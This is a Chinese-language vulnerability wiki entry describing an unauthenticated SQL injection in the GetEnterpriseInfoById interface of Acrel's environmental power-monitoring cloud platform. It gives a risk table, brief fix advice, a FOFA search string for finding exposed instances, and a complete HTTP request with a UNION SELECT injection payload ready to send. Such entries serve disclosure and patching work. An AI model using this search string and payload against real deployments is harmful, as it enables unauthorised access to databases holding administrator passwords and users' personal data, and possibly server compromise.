

# 安科瑞环保用电监管云平台 GetEnterpriseInfoById SQL注入漏洞

# 漏洞描述

安科瑞环保用电监管云平台 GetEnterpriseInfoById 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

安科瑞环保用电监管云平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="myCss/phone.css"

POC/EXP：

GET /MainMonitor/GetEnterpriseInfoById?EnterpriseId=%27+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x716a627871%2C0x647a457071654e45644d4c627a716c4d7948505a4d67756a786c70576a5a4f7749627a5449486562%2C0x7178767171%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
